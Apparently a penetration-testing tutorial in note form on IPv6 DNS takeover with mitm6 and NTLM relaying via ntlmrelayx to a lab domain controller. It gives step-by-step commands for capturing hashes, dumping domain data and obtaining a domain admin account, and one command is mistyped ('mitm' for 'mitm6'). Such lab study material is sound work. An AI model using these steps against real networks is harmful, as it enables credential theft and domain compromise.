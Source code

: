 # IPv6 Attacks Overview

## How Does it Work

* IPv4 is usually utilized, and IPv6 is sometimes turned on but not used
* Windows calls out to a non-existent IPv6 DNS server
* that means there is NO DNS server for IPv6, so you can setup an attacker machine as IPv6 DNS
* you can gain authenticate to the Domain Controller through LDAP or SMB
* you can grab NTLM hashes, just like Responder

## IPv6 DNS Takeover with via mitm6

* [https://github.com/fox-it/mitm6](https://github.com/fox-it/mitm6)
* may have to downgrade mitm6 if there are problems

### Step 1: Spin up mitm6

```bash
mitm -d marvel.local
```

### Step 2: Setup Relay Attack

```bash
ntlmrelayx.py -6 -t ldaps://<domain controller ip> -wh fakewpad.marvel.local -l lootmefile
```

### Step 3: Wait for IPv6 to try to find a DNS

* in lab enviroments, reboot the machine to force this step
* elsewhere, you must wait, roughly ever 30 minutes.

### Step 4: Check the LootMeFile

```bash
cd lootmefile
```

```bash
firefox domain_users_by_group.html
```

* this has tons of juicy information

### Note: If an Admin logs in, it will try to make you an Admin account

* it will output a username and password for you, meaning you own the domain
* it edits the ACL for the user and stores a file called ACLPWN to restore back to the original ACL

## Other Cool Attacks with mitm6 and Resources

* [https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberosdelegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
* [https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
